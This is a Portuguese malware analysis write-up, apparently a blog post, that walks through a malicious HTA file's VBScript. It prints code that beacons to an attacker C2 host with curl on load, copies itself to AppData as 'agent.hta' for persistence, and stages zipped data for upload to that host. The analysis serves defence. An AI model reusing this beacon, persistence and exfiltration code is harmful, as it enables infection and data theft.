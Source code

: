 ### 3.4. Evento `Window_OnLoad`

```vb {linenos=table linenostart=25}
beaconUrl = "https://upload.cloudflair.org/beacon"
Set shell = CreateObject("WScript.Shell")
shell.Run "cmd /c curl " & beaconUrl, 0, True
```
Essa função roda automaticamente quando o HTA carrega:
- Envia um `beacon`[^1] para `hxxps://upload[.]cloudflair.org/beacon`, notificando que a vítima abriu o malware.
- É pra notificar no _back-end_ do C2 uma nova vítima.

### 3.5. Definição de variáveis e destino

```vb {linenos=table linenostart=35}
userProfile = shell.ExpandEnvironmentStrings("%USERPROFILE%")
appData = shell.ExpandEnvironmentStrings("%APPDATA%")
targetDir = appData & "\Microsoft\Windows\"
scriptPath = targetDir & "agent.hta"
' Generate dynamic zip filename
Dim computerName, timestamp
computerName = shell.ExpandEnvironmentStrings("%COMPUTERNAME%")
timestamp = Year(Now()) & "-" & _
    Right("0" & Month(Now()), 2) & "-" & _
    Right("0" & Day(Now()), 2) & "_" & _
    Right("0" & Hour(Now()), 2) & "-" & _
    Right("0" & Minute(Now()), 2) & "-" & _
    Right("0" & Second(Now()), 2)
tempZip = targetDir & computerName & "_" & timestamp & ".zip"

tempCopyDir = targetDir & "ext_copy"
uploadUrl = "https://upload.cloudflair.org/upload"
```
- Cria uma cópia de si mesmo em `\AppData\Roaming\Microsoft\Windows\`.
- O nome `agent.hta` é escolhido para parecer um componente legítimo.
- Essa parte permite a persistência do malware no sistema.
- Cria uma pasta chamada `ext_copy` onde ficam armazenados os dados para compressão e envio para o C2.

{{< bs/alert info >}}
{{< bs/alert-heading "INFO" >}}
Tecnicamente, com base no script, o arquivo <code>agent.hta</code> deveria ter sido gerado no meu server para persistência, mas não encontrei evidências dele no server nem via SIEM.
{{< /bs/alert >}}

<figure style="text-align: center;">
  <img src="peek.gif" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">

[^1]: Em um contexto de malware ou C2 (Command & Control), um `beacon` é uma comunicação feita por uma máquina comprometida para o servidor do atacante, com o objetivo de sinalizar que está ativa ou como um "sinal de vida (Healthy)", para confirmar que a infecção foi bem-sucedida. Além de confirmar a presença do malware, ele pode enviar informações básicas do sistema e aguardar comandos. No nosso caso, o `beacon` é enviado quando o script executa um `curl` para o C2 hxxps://upload[.]cloudflair.org/beacon, funcionando como um "check-in" inicial informando que o malware foi ativado/executado com sucesso.